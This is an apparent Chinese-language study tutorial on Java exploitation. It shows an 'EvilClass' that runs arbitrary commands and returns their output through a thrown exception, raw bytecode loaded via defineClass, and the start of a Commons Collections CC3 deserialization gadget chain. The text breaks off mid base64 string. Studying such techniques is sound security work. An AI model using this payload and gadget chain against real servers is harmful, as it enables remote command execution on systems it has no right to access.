






# DefineClass异常回显

defineclass是一个`java.lang.ClassLoader`类下的一个方法,可以将字节码转换为Class类

首先来看一下我们的恶意类

## 构造恶意类

```java
package defineclass;

import java.beans.Expression;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;

public class EvilClass {
    public void Exec(String cmd) throws Exception{
        InputStream in = new ProcessBuilder("cmd","/c",cmd).start().getInputStream();  //将我们命令结果转换为输入流
        Reader reader = new InputStreamReader(in, "GBK");                   //转换为字符流
       StringBuffer SBuff = new StringBuffer();
        for (;;) {
            int n = reader.read(); // 反复调用read()方法，直到返回-1
            if (n == -1) {
                break;
            }
            char c=(char)n;
            SBuff.append(c);
        }
        reader.close(); // 关闭流
  /*      BufferedReader bufferedReader = new BufferedReader(reader);
        StringBuffer SBuff = new StringBuffer();
        String line = null;

        while((line = bufferedReader.readLine()) != null) {
            SBuff.append(line).append("\n");
        }
        */
        //通过报错输出异常
        throw new Exception(SBuff.toString());
    }
    public static void main(String[] args) throws Exception {
        EvilClass evil = new EvilClass();
        evil.Exec("ipconfig");
    }

}
```

> 关于[getInputStream()](https://blog.csdn.net/cumtv80668/article/details/107798179)
>
> BufferReader 此类的readLine()方法可以按行读取字符流 
>
> StringBuffer一般用于字符串的追加

这里抛出了异常:



然后还看到了使用Scanner来得到命令回显的



字符串的开头为`\\A`,useDelimiter可以自己设定分隔符,这样的话可以直接获取到整个字符串,就不需要挨个读取了。

接下来就是利用DefineClass来加载我们的这个类

先将我们的EvilClass.class文件转换为byte

## 构造byte数组

```java
package defineclass;

import java.io.*;
import java.util.Arrays;

public class FileToByte {

    public String Bytes(String filename) throws IOException {
        String buf;
        int i=4095;
        byte[] bytes= new byte[4096];
        File file = new File(filename);
        byte b=0;
        InputStream fin = new FileInputStream(file);
        fin.read(bytes);

     /*   buf = Arrays.toString(bytes);
        return buf;*/
      for(;;){
          if(bytes[i]!=b){
              break;
          }
          i--;
      }
        byte[] bytes2=Arrays.copyOfRange(bytes,0,i+1);
        buf = Arrays.toString(bytes2);
        fin.close();
       return  buf;
    }
}
```

```java
package defineclass;

import java.io.IOException;

public class EvilToByte {
 static final String filename="out\\production\\[IDEA]命令回显\\defineclass\\EvilClass.class";

    public static void main(String[] args) throws IOException {
            FileToByte bytes = new FileToByte();
            String str=bytes.Bytes(filename);
        System.out.println(str);
    }
}
```

输出了byte数组



## 利用loadClass进行加载

```java
package defineclass;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class LoadClass extends ClassLoader {
        static String ClassName="defineclass.EvilClass";
        static byte[] ClassByte=new byte[]{
                -54, -2, -70, -66, 0, 0, 0, 52, 0, 100, 10, 0, 26, 0, 62, 7, 0, 63, 7, 0, 64, 8, 0, 36, 8, 0, 65, 10, 0, 2, 0, 66, 10, 0, 2, 0, 67, 10, 0, 68, 0, 69, 7, 0, 70, 8, 0, 71, 10, 0, 9, 0, 72, 7, 0, 73, 10, 0, 12, 0, 62, 7, 0, 74, 10, 0, 14, 0, 75, 10, 0, 14, 0, 76, 10, 0, 12, 0, 77, 8, 0, 78, 7, 0, 79, 10, 0, 12, 0, 80, 10, 0, 19, 0, 81, 7, 0, 82, 10, 0, 22, 0, 62, 8, 0, 83, 10, 0, 22, 0, 84, 7, 0, 85, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1, 0, 18, 76, 111, 99, 97, 108, 86, 97, 114, 105, 97, 98, 108, 101, 84, 97, 98, 108, 101, 1, 0, 4, 116, 104, 105, 115, 1, 0, 23, 76, 100, 101, 102, 105, 110, 101, 99, 108, 97, 115, 115, 47, 69, 118, 105, 108, 67, 108, 97, 115, 115, 59, 1, 0, 4, 69, 120, 101, 99, 1, 0, 21, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 3, 99, 109, 100, 1, 0, 18, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 2, 105, 110, 1, 0, 21, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 6, 114, 101, 97, 100, 101, 114, 1, 0, 16, 76, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 59, 1, 0, 5, 83, 66, 117, 102, 102, 1, 0, 24, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 14, 98, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 1, 0, 24, 76, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 59, 1, 0, 4, 108, 105, 110, 101, 1, 0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 82, 7, 0, 64, 7, 0, 86, 7, 0, 87, 7, 0, 73, 7, 0, 74, 1, 0, 10, 69, 120, 99, 101, 112, 116, 105, 111, 110, 115, 1, 0, 4, 109, 97, 105, 110, 1, 0, 22, 40, 91, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 4, 97, 114, 103, 115, 1, 0, 19, 91, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 4, 101, 118, 105, 108, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 14, 69, 118, 105, 108, 67, 108, 97, 115, 115, 46, 106, 97, 118, 97, 12, 0, 27, 0, 28, 1, 0, 24, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 1, 0, 2, 47, 99, 12, 0, 27, 0, 56, 12, 0, 88, 0, 89, 7, 0, 90, 12, 0, 91, 0, 92, 1, 0, 25, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 1, 0, 3, 71, 66, 75, 12, 0, 27, 0, 93, 1, 0, 22, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 1, 0, 22, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 12, 0, 27, 0, 94, 12, 0, 95, 0, 96, 12, 0, 97, 0, 98, 1, 0, 1, 10, 1, 0, 19, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 99, 0, 96, 12, 0, 27, 0, 35, 1, 0, 21, 100, 101, 102, 105, 110, 101, 99, 108, 97, 115, 115, 47, 69, 118, 105, 108, 67, 108, 97, 115, 115, 1, 0, 8, 105, 112, 99, 111, 110, 102, 105, 103, 12, 0, 34, 0, 35, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 1, 0, 19, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 14, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 1, 0, 5, 115, 116, 97, 114, 116, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 59, 1, 0, 17, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 1, 0, 14, 103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 23, 40, 41, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 42, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 19, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 59, 41, 86, 1, 0, 8, 114, 101, 97, 100, 76, 105, 110, 101, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 6, 97, 112, 112, 101, 110, 100, 1, 0, 44, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 8, 116, 111, 83, 116, 114, 105, 110, 103, 0, 33, 0, 22, 0, 26, 0, 0, 0, 0, 0, 3, 0, 1, 0, 27, 0, 28, 0, 1, 0, 29, 0, 0, 0, 47, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0, 2, 0, 30, 0, 0, 0, 6, 0, 1, 0, 0, 0, 9, 0, 31, 0, 0, 0, 12, 0, 1, 0, 0, 0, 5, 0, 32, 0, 33, 0, 0, 0, 1, 0, 34, 0, 35, 0, 2, 0, 29, 0, 0, 1, 16, 0, 6, 0, 7, 0, 0, 0, 105, -69, 0, 2, 89, 6, -67, 0, 3, 89, 3, 18, 4, 83, 89, 4, 18, 5, 83, 89, 5, 43, 83, -73, 0, 6, -74, 0, 7, -74, 0, 8, 77, -69, 0, 9, 89, 44, 18, 10, -73, 0, 11, 78, -69, 0, 12, 89, -73, 0, 13, 58, 4, -69, 0, 14, 89, 45, -73, 0, 15, 58, 5, 1, 58, 6, 25, 5, -74, 0, 16, 89, 58, 6, -58, 0, 19, 25, 4, 25, 6, -74, 0, 17, 18, 18, -74, 0, 17, 87, -89, -1, -24, -69, 0, 19, 89, 25, 4, -74, 0, 20, -73, 0, 21, -65, 0, 0, 0, 3, 0, 30, 0, 0, 0, 34, 0, 8, 0, 0, 0, 11, 0, 32, 0, 12, 0, 43, 0, 13, 0, 52, 0, 23, 0, 62, 0, 24, 0, 65, 0, 26, 0, 76, 0, 27, 0, 92, 0, 30, 0, 31, 0, 0, 0, 72, 0, 7, 0, 0, 0, 105, 0, 32, 0, 33, 0, 0, 0, 0, 0, 105, 0, 36, 0, 37, 0, 1, 0, 32, 0, 73, 0, 38, 0, 39, 0, 2, 0, 43, 0, 62, 0, 40, 0, 41, 0, 3, 0, 52, 0, 53, 0, 42, 0, 43, 0, 4, 0, 62, 0, 43, 0, 44, 0, 45, 0, 5, 0, 65, 0, 40, 0, 46, 0, 37, 0, 6, 0, 47, 0, 0, 0, 31, 0, 2, -1, 0, 65, 0, 7, 7, 0, 48, 7, 0, 49, 7, 0, 50, 7, 0, 51, 7, 0, 52, 7, 0, 53, 7, 0, 49, 0, 0, 26, 0, 54, 0, 0, 0, 4, 0, 1, 0, 19, 0, 9, 0, 55, 0, 56, 0, 2, 0, 29, 0, 0, 0, 75, 0, 2, 0, 2, 0, 0, 0, 15, -69, 0, 22, 89, -73, 0, 23, 76, 43, 18, 24, -74, 0, 25, -79, 0, 0, 0, 2, 0, 30, 0, 0, 0, 14, 0, 3, 0, 0, 0, 33, 0, 8, 0, 34, 0, 14, 0, 35, 0, 31, 0, 0, 0, 22, 0, 2, 0, 0, 0, 15, 0, 57, 0, 58, 0, 0, 0, 8, 0, 7, 0, 59, 0, 33, 0, 1, 0, 54, 0, 0, 0, 4, 0, 1, 0, 19, 0, 1, 0, 60, 0, 0, 0, 2, 0, 61
        };

/*
    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        if (name.equals(ClassName)) {

            defineClass(ClassName,ClassByte,0,ClassByte.length);
        }
        return super.loadClass(name);
    }
*/

    public static void main(String[] args) throws Exception {
        LoadClass Evil = new LoadClass();
        Class clazz=Evil.loadClass(ClassName);
        Method exec=clazz.getMethod("Exec",String.class);  //获取Exec方法
        Object Obj = clazz.newInstance();
        exec.invoke(Obj,"ipconfig");  //传入命令并且执行                
    }
}
```

成功回显

也可以写成这样

```java
package defineclass;

import java.lang.reflect.Method;

public class DefineClass extends ClassLoader{
    static String ClassName="defineclass.EvilClass";
    static byte[] ClassByte=new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 52, 0, 100, 10, 0, 26, 0, 62, 7, 0, 63, 7, 0, 64, 8, 0, 36, 8, 0, 65, 10, 0, 2, 0, 66, 10, 0, 2, 0, 67, 10, 0, 68, 0, 69, 7, 0, 70, 8, 0, 71, 10, 0, 9, 0, 72, 7, 0, 73, 10, 0, 12, 0, 62, 7, 0, 74, 10, 0, 14, 0, 75, 10, 0, 14, 0, 76, 10, 0, 12, 0, 77, 8, 0, 78, 7, 0, 79, 10, 0, 12, 0, 80, 10, 0, 19, 0, 81, 7, 0, 82, 10, 0, 22, 0, 62, 8, 0, 83, 10, 0, 22, 0, 84, 7, 0, 85, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1, 0, 18, 76, 111, 99, 97, 108, 86, 97, 114, 105, 97, 98, 108, 101, 84, 97, 98, 108, 101, 1, 0, 4, 116, 104, 105, 115, 1, 0, 23, 76, 100, 101, 102, 105, 110, 101, 99, 108, 97, 115, 115, 47, 69, 118, 105, 108, 67, 108, 97, 115, 115, 59, 1, 0, 4, 69, 120, 101, 99, 1, 0, 21, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 3, 99, 109, 100, 1, 0, 18, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 2, 105, 110, 1, 0, 21, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 6, 114, 101, 97, 100, 101, 114, 1, 0, 16, 76, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 59, 1, 0, 5, 83, 66, 117, 102, 102, 1, 0, 24, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 14, 98, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 1, 0, 24, 76, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 59, 1, 0, 4, 108, 105, 110, 101, 1, 0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 82, 7, 0, 64, 7, 0, 86, 7, 0, 87, 7, 0, 73, 7, 0, 74, 1, 0, 10, 69, 120, 99, 101, 112, 116, 105, 111, 110, 115, 1, 0, 4, 109, 97, 105, 110, 1, 0, 22, 40, 91, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 4, 97, 114, 103, 115, 1, 0, 19, 91, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 4, 101, 118, 105, 108, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 14, 69, 118, 105, 108, 67, 108, 97, 115, 115, 46, 106, 97, 118, 97, 12, 0, 27, 0, 28, 1, 0, 24, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 1, 0, 2, 47, 99, 12, 0, 27, 0, 56, 12, 0, 88, 0, 89, 7, 0, 90, 12, 0, 91, 0, 92, 1, 0, 25, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 1, 0, 3, 71, 66, 75, 12, 0, 27, 0, 93, 1, 0, 22, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 1, 0, 22, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 12, 0, 27, 0, 94, 12, 0, 95, 0, 96, 12, 0, 97, 0, 98, 1, 0, 1, 10, 1, 0, 19, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 99, 0, 96, 12, 0, 27, 0, 35, 1, 0, 21, 100, 101, 102, 105, 110, 101, 99, 108, 97, 115, 115, 47, 69, 118, 105, 108, 67, 108, 97, 115, 115, 1, 0, 8, 105, 112, 99, 111, 110, 102, 105, 103, 12, 0, 34, 0, 35, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 1, 0, 19, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 14, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 1, 0, 5, 115, 116, 97, 114, 116, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 59, 1, 0, 17, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 1, 0, 14, 103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 23, 40, 41, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 42, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 19, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 59, 41, 86, 1, 0, 8, 114, 101, 97, 100, 76, 105, 110, 101, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 6, 97, 112, 112, 101, 110, 100, 1, 0, 44, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 8, 116, 111, 83, 116, 114, 105, 110, 103, 0, 33, 0, 22, 0, 26, 0, 0, 0, 0, 0, 3, 0, 1, 0, 27, 0, 28, 0, 1, 0, 29, 0, 0, 0, 47, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0, 2, 0, 30, 0, 0, 0, 6, 0, 1, 0, 0, 0, 9, 0, 31, 0, 0, 0, 12, 0, 1, 0, 0, 0, 5, 0, 32, 0, 33, 0, 0, 0, 1, 0, 34, 0, 35, 0, 2, 0, 29, 0, 0, 1, 16, 0, 6, 0, 7, 0, 0, 0, 105, -69, 0, 2, 89, 6, -67, 0, 3, 89, 3, 18, 4, 83, 89, 4, 18, 5, 83, 89, 5, 43, 83, -73, 0, 6, -74, 0, 7, -74, 0, 8, 77, -69, 0, 9, 89, 44, 18, 10, -73, 0, 11, 78, -69, 0, 12, 89, -73, 0, 13, 58, 4, -69, 0, 14, 89, 45, -73, 0, 15, 58, 5, 1, 58, 6, 25, 5, -74, 0, 16, 89, 58, 6, -58, 0, 19, 25, 4, 25, 6, -74, 0, 17, 18, 18, -74, 0, 17, 87, -89, -1, -24, -69, 0, 19, 89, 25, 4, -74, 0, 20, -73, 0, 21, -65, 0, 0, 0, 3, 0, 30, 0, 0, 0, 34, 0, 8, 0, 0, 0, 11, 0, 32, 0, 12, 0, 43, 0, 13, 0, 52, 0, 23, 0, 62, 0, 24, 0, 65, 0, 26, 0, 76, 0, 27, 0, 92, 0, 30, 0, 31, 0, 0, 0, 72, 0, 7, 0, 0, 0, 105, 0, 32, 0, 33, 0, 0, 0, 0, 0, 105, 0, 36, 0, 37, 0, 1, 0, 32, 0, 73, 0, 38, 0, 39, 0, 2, 0, 43, 0, 62, 0, 40, 0, 41, 0, 3, 0, 52, 0, 53, 0, 42, 0, 43, 0, 4, 0, 62, 0, 43, 0, 44, 0, 45, 0, 5, 0, 65, 0, 40, 0, 46, 0, 37, 0, 6, 0, 47, 0, 0, 0, 31, 0, 2, -1, 0, 65, 0, 7, 7, 0, 48, 7, 0, 49, 7, 0, 50, 7, 0, 51, 7, 0, 52, 7, 0, 53, 7, 0, 49, 0, 0, 26, 0, 54, 0, 0, 0, 4, 0, 1, 0, 19, 0, 9, 0, 55, 0, 56, 0, 2, 0, 29, 0, 0, 0, 75, 0, 2, 0, 2, 0, 0, 0, 15, -69, 0, 22, 89, -73, 0, 23, 76, 43, 18, 24, -74, 0, 25, -79, 0, 0, 0, 2, 0, 30, 0, 0, 0, 14, 0, 3, 0, 0, 0, 33, 0, 8, 0, 34, 0, 14, 0, 35, 0, 31, 0, 0, 0, 22, 0, 2, 0, 0, 0, 15, 0, 57, 0, 58, 0, 0, 0, 8, 0, 7, 0, 59, 0, 33, 0, 1, 0, 54, 0, 0, 0, 4, 0, 1, 0, 19, 0, 1, 0, 60, 0, 0, 0, 2, 0, 61
    };
    public static void main(String[] args) throws Exception {
        DefineClass defineclass = new DefineClass();
        Class clazz = defineclass.defineClass(ClassName,ClassByte,0,ClassByte.length);
        Method exec=clazz.getMethod("Exec",String.class);  //获取Exec方法
        Object Obj = clazz.newInstance();
        exec.invoke(Obj,"ipconfig");  //传入命令并且执行
    }
}
```


## 配合反序列化

这个payload是不能直接配合反序列化使用的,因为`ClassLoader`的defineClass为protected类型,无法被类外部调用




所这里我想到了之前跟的CC3,也有字节码加载机制(虽然defineClass为default类型,但这条链子实际上是通过public内部方法进行调用的),然后我稍微修改了下前半段,让我们的payload在JDK1.8的环境下也可以使用。然后网上也有用weblogic中的`wlfullclient.jar!.org.mozilla.classfile.DefiningClassLoader`

```java
package defineclass;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.jboss.util.Base64;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
public class CC32 {

    public static void main(String[] args) throws Exception{

        //字节码
       // byte[] code = Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL